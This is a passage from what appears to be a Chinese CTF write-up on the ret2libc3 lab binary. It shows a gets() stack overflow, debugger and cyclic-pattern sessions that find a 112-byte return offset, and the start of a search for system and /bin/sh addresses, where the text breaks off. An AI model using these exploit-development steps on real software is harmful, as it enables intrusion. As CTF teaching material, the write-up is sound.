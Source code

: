 存在 gets 函数，有栈溢出的可能，计算返回地址到可控输入的偏移量（这里使用另一种方法）

```plain
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

gdb-peda$ r
Starting program: /home/qufeng/Desktop/pwn1/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
//拿到 ebp 的值为 EBP: 0x6941414d ('MAAi')

gdb-peda$ pattern offset MAAi
MAAi found at offset: 108
//故偏移量为 108+4=112
```

或者：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ gdb ret2libc3 
gdb-peda$ r
Starting program: /home/qufeng/Desktop/pwn1/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
//执行结果后半部分
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x62616164 in ?? ()    //出现溢出的位置

gdb-peda$ q
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ cyclic -l 0x62616164
112
```

3、找 system 地址及/bin/sh 地址

```plain
$info functions         //没有 system 地址
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2libc3 --string "/bin/sh"
Strings information
============================================================
```
